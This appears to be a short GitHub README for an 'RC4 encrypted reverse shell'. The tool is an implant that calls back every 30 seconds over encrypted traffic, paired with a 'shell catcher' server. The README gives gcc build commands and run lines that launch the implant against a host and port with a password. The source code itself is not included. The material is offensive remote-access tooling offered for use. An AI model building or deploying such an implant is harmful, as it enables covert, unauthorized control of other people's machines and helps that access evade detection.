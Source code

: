 # RC4 encrypted reverse shell

The reverse shell attempts to make a connection every 30 seconds.
Traffic is RC4 drop 1024 encrypted with the sha256 hash of the key. 

## Useage
Note you may need to add `-lpthread` to compile!
### Reverse Shell
```
gcc -o implant reverse-shell.c sha256.c
./implant 127.0.0.1 58008 MY-SUPER-SECRET-PASSWORD
```

### Shell Catcher
```
gcc -o server ./server.c sha256.c
./server 58008 MY-SUPER-SECRET-PASSWORD 
```
